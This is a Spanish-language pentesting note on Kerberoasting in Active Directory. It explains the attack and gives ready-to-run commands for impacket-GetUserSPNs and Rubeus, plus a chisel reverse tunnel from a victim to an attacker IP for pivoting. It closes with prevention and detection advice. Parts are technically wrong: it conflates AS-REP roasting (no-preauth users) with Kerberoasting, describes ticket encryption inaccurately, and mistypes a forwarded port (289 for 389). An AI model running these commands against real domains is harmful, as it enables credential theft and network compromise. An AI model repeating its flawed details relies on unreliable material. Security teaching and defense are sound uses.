 # Kerberoasting 

El **Kerberoasting** attack es una técnica utilizada para extraer contraseñas de cuentas de usuarios en un dominio de Windows que utiliza el protocolo de autenticación de [[Kerberos]].

Kerberos permite a los usuarios autenticarse de forma segura en un dominio y recibir un "ticket" (TGS) que se puede utilizar para acceder a los recursos de la red. Los tickets de Kerberos están encriptados utilizando la clave de cifrado del servidor de dominio (NTLM). 

En este ataque, el atacante aprovecha una debilidad en el proceso de autenticación de Kerberos para extraer contraseñas en forma de "hashes" de los tickets de servicio. Los tickets de servicio son tickets utilizados por servicios de dominio para autenticarse en otros sistemas dentro de la red. Estos tickets contienen información cifrada, incluyendo el nombre de la cuenta de servicio y un hash de la contraseña de la cuenta. 

El atacante recopila los tickets de servicio de la red y luego los extrae para obtener los hashes de las contraseñas asociadas a las cuentas de servicio. Estos hashes pueden ser descifrados offline utilizando técnicas de cracking para obtener las contraseñas en texto plano. 

-----
# Explotación 

- **Identificación de usuarios con cuentas de servicio**: Para llevar a cabo un ataque de **Kerberoasting** es importante identificar cuentas de servicio en el dominio de Active Directory. Estas son cuentas de usuario especiales que se utilizan para ejecutar servicios en servidores y a menudo se configuran para que puedan autenticarse en un dominio y solicitar TS (Ticket Service).

- **Solicitud de tíquets de serivicio**: Una vez que se identifican las cuentas de servicio, un atacante solicita tíckets de servicio para estas cuentas utilizando [[Kerberos]]. Estos tickets de servicio se cifran utilizando el hash **NTLM** de la contraseña del servicio.

- **Exfiltración de tickets cifrados**: Una vez que el atacante ha obtenido los tickets cifrados, estos se extraen del entorno de AD. El atacante puede realizar esto de manera discrea y sin despertar sospechas.

- **Ataque offile**: Una vez con los tickets cifrados en su posesión, el atacnte intenta descrifrar los hashes NTLM correspondientes a las contraseñas de los serivcios. Esto se hace de forma offline, lo que significa que el atacante puede probar diferentes contraseñas sin activar alarmas de seguridad en el entorno de AD.

- **Contraseñas débilles o vulnerables**: Si las contraseñas de los serivcios son débiles o vulnerables, el ataque **Kerberoasting** tendrá éxito y el atacante obtendrá las contraseañs reales en texto claro correspondinetes a las cuentas de servicio comprometidas.

-  **Uso de las contraseñas obtenidas**: Con las contraseñas de servicio en su poder, el atacnte puede utilizarlas para acceder a sistemas y servicios adeicionales en el entorno, lo que puede conducir a un mayor compromiso de la red. 

-----
# PoC Remote

Para obtener SPNs (Service Principal Names), es decir, cuentas de servicio, podemos hacer uso de herramientas como **imapcket-GetUserSPNs**, perteneciente a la suite de impacket (Conjunto de herramientas desarrolladas en python para tareas relacionadas con la explotación y analisis de protocolos y servicios de Windows y redes). Por ejemplo, una vez que tengamos credenciales válidas (Las cuales podrían ser validadas con herramientas como **crackmapexec**), podríamos plantearnos realizar un **Kerberoasting attack**. 

```bash
impacket-GetUserSPNs {domain}/{username}:{password} -request

impacket-GetUserSPNs -request -dc-ip {dc_ip} {domain.full}/{username}:{password} -outputfile hashes.kerberos

impacket-GetUserSPNs -request -dc-ip {dc_ip} -hashes :{nt_hash} {domain}/{username} -outputfile hashes.kerberos
```
En caso de que haya algun usuario vulnerable el cual sea detectado con la herramienta **impacket-GetUserSPNs** podríamos utilizar el parametro **-request** para solicitar un **TGS** y así posteriormente intentar crackear este. 

Otro ejemplo, en caso de que tengamos un usuario que disponga de **UF_DONT_REQUEST_PREAUTH** podríamos hacer uso de otra version de impacket disponible en el respositorio de [ShutDown Impacket](https://github.com/ShutdownRepo/impacket.git), en donde podremos cambiarnos a la rama de **getuserspns-nopreauth** para hacer uso de la herramienta **GetUserSPNs** con la flag `-no-preauth`. 

```bash
GetUserSPNs.py {domain}/ -no-preauth "{user_with_UF_DONT_REQUEST_PREAUTH=true}" -usersfile {users.txt} -dc-ip {ip} -request
```
De esta manera, al ejecutar el anterior comando estaremos intentando solicitar un **TGS** para todas los usuarios almacenados, aunque solo tendremos éxito en este ataque, es decir, recibir el TGS con el hash NTLM en su interior si el usuario es kerberoasteable (Que las credenciales están configuradas de manera que se almacenan).

----
# PoC Local

En algunos casos, puede ser que nos enfrentemos a escenarios en donde no podemos llevar a cabo un **Kerberoasting Attack** por configuraciones, falta de exposición de kerberos, errores, etc. pero es importante tener en cuenta probar esto una vez que accedamos al sistema como algún usuario, en ese caso podemos hacer uso de herramientas como [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe) para efectuar el mismo. (Podemos encontrar el binario compilado en el [repositorio de ghostpack](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)).

Una vez descargado y transferido a la máquina víctima, podemos hacer uso de este para efectuar un Kerberoasting Attack:

```Powershell
> .\Rubeus.exe kerberoast /creduser:{domain}\{user} /credpassword:{password}
```

En caso de que existiesen usuarios con la configuración **UF_DONT_REQUEST_PREAUTH** su hash NTLMv2 será devuelto en el output, dandonos así la pauta de que este ataque fue ejecutado de manera correcta puediendo así intentear crackear el/los mismo/s de manera offline. 
###### Importante

Es importante tener en cuenta que así como puede ser que el kerberoastin attack sea llevado a cabo únicamente de manera remota por diversos motivos, en caso de que tengamos acceso al sistema y sea por la falta de exposición del protocolo kerberos, estando este accesible desde la máquina de manera local pero no de manera remota, además de hacer uso de rubeus también podríamos hacer uso de conceptos de [[Pivoting]].

Por ejemplo, cuando usamos el sigueinte comando obtenemos los *usuarios kerberoasteables*:

```bash
impacket-GetUserSPNs {domain}\{user}:{password}
```

Pero al momento de agregarle la flag `-request` obtenemos un error debido a que [[Kerberos]] no se encuentra expuesto. Es importante tener en cuenta que esto es posible ya que no es hasta que ingresamos esta flag que autenticamos contra kerberos, por detras, *impacket-GetUserSPNs* lo que hace es establecer una conexión con el DC utilizando Kerberos o NTLM y luego solicita la información sobre los Service Principal Names.

Retomando con el [[Pivoting]], sabemos que tenemos que hacer uso de [Chisel](https://github.com/jpillora/chisel) para poder crear un **cliente-servidor**, pero lo que debemos tener en cuenta que es que además del puerto **88** (Kerberos), deberíamos traernos el puerto **389** (Ldap).

Máquina atacante:
```Bash
./chisel server --reverse 1234
```

Máquina víctima:
```bash
./chisel client {Attacker_IP}:1234 R:88:127.0.0.1:88 R:289:127.0.0.1:389
```

Una vez generado el servidor y conectado al mismo portforwardeando el puerto de Kerberos y Ldap, podemos intentar realizar un Kerberoasting attack teniendo en cuenta que el mismo deberá ser apuntado contra nuestro localhost debido a que ahora en nuestra máquina atacante por el puerto 88 y 389 en realidad tenemos el puerto 88 y 389 de la máquina víctima.

```bash
impacket-GetUserSPNs {domain}/{user}:{password} -request -dc-ip 127.0.0.1
```

En caso de que haya usuarios con la configuración **UF_DONT_REQUEST_PREAUTH**, una vez más, será completado de manera exitosa este ataque.

-----
# Prevenir Kerberoasting Attack ( #blueteam )

- **Uso de contraseñas fuertes**: La primera línea de defensa es asegurarse de que todas las cuetnas de servicio tengan contraseñas fuertes y únicas. Esto hace que sea mucho más difícil para los atacantes realizar este ataque, ya que la contraseña es más difícil de descifrar.
- **Uso de contraseñas gestionadas**: En lugar de permitir que los administradores configuren manulamente contraseñas para cuentas de servicio, considere el uso de soluciones de gestión de contraseñase que generen y almacenen contraseñas de manera segura.
- **Rotación regular de contraseñas**: Implementar políticas de rotración de contraseñas para ceuntas de servicio. Cuanto más a menudo cambie las contraseñas, menor será el tiempo que un atacante potencial tendría para realizar este ataque.
- **Monitoreo ode actividad anómala**: Establecer sistemas de monitoreo y alerta que puedan detectar actividades inusuales en el AD, como intentos repetidos de acceso a ceutnas de servicio o acceso no autorizado a los registros de eventos de [[Kerberos]].
- **Uso de soluciones de seguridad avanzadas**: Considerara la implementación de soluciones de seguiridad avanzada que puedan detectar y prevenir este ataque mediante la detección de patrones de comportamiento inusuales o el monitoreo en tiempo real de la autenticación de [[Kerberos]].
- **Implementacipón de políticas de seguridad adecuadas**: Asegurarsse de que la organización tenga políticas de segurida bien definidas y qeu se sigan de manera consistente. Esto incluye el acceso a cuetnas de servicio y el uso de cuentas con privilegios elevados.
# Detección
Para detectar un **Kerberoasting Attack** puede ser muy útil generar detecciones a raiz de los siguientes puntos a tener en cuenta.

- **1)** Se solicitan **TGS** con **cifrado RC4**.
- **2)** Evento **4769** en el Domain Controller (Filtrando por tickets con tipo de encriptado **0x17**, cuentas de servicio conocidas y computadoras)